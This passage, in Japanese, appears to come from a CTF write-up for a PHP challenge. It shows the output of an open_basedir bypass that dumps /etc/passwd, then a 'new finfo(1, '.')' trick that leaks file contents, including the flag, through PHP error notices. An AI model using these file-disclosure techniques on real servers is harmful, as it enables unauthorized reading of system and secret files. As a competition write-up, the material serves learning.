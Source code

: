 `/etc/passwd` を読み出すことができました 🥺

```
$ python test.py
<code><span style="color: #000000">
root:x:0:0:root:/root:/bin/bash<br />daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin<br />bin:x:2:2:bin:/bin:/usr/sbin/nologin<br />sys:x:3:3:sys:/dev:/usr/sbin/nologin<br />sync:x:4:65534:sync:/bin:/bin/sync<br />games:x:5:60:games:/usr/games:/usr/sbin/nologin<br />man:x:6:12:man:/var/cache/man:/usr/sbin/nologin<br />lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin<br />mail:x:8:8:mail:/var/mail:/usr/sbin/nologin<br />news:x:9:9:news:/var/spool/news:/usr/sbin/nologin<br />uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin<br />proxy:x:13:13:proxy:/bin:/usr/sbin/nologin<br />www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin<br />backup:x:34:34:backup:/var/backups:/usr/sbin/nologin<br />list:x:38:38:Mailing&nbsp;List&nbsp;Manager:/var/list:/usr/sbin/nologin<br />irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin<br />gnats:x:41:41:Gnats&nbsp;Bug-Reporting&nbsp;System&nbsp;(admin):/var/lib/gnats:/usr/sbin/nologin<br />nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin<br />_apt:x:100:65534::/nonexistent:/usr/sbin/nologin<br /></span>
</code>
```

#### フラグを得る
`open_basedir` はバイパスできましたが、まだやるべきことがあります。フラグを取得しなければいけませんが、どのようなファイル名で保存されているかわかりません。

このような場合に使えるテクとして、[`new finfo(1, '.');` であるディレクトリ下のファイルを無理やり読み込ませて、エラー情報から内容を得る](https://ngaa.tistory.com/m/16?category=714704)というものがあります。やってみましょう。

先程の `open_basedir` バイパスのコードの後ろに `new finfo(1, '.');` を付け加えて実行してみると、フラグが得られました。

```
$ python test.py
<br />
<b>Notice</b>:  finfo::finfo(): Warning: offset `&lt;?php' invalid in <b>/var/www/html/index.php(26) : eval()'d code(1) : eval()'d code(1) : eval()'d code(1) : eval()'d code</b> on line <b>13</b><br />
<br />
<b>Notice</b>:  finfo::finfo(): Warning: offset `$flag='securinets{87E4C6A81CD3104AE4ADBF0758268134D0B}';' invalid in <b>/var/www/html/index.php(26) : eval()'d code(1) : eval()'d code(1) : eval()'d code(1) : eval()'d code</b> on line <b>13</b><br />
<br />
…
```

```
securinets{87E4C6A81CD3104AE4ADBF0758268134D0B}
```